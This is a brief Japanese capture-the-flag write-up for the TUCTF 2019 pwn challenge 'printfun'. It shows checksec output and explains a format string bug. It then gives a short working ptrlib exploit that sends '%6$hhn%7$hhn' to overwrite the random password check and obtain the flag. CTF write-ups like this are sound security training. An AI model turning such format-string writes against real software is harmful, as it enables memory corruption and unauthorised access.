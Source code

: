# [pwn 494pts] printfun - TUCTF 2019
SSPが無効です。
```
$ checksec -f printfun
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   80 Symbols     No       0               6       printfun
```
FSBがあります。ランダムに生成されたパスワードと入力が一致すればフラグが貰えます。
RELROが有効なのでパスワードの方を書き換えました。
```python
from ptrlib import *

sock = Process("./printfun")

sock.sendafter("? ", "%6$hhn%7$hhn")

sock.interactive()
```

# 感想
簡単ですね。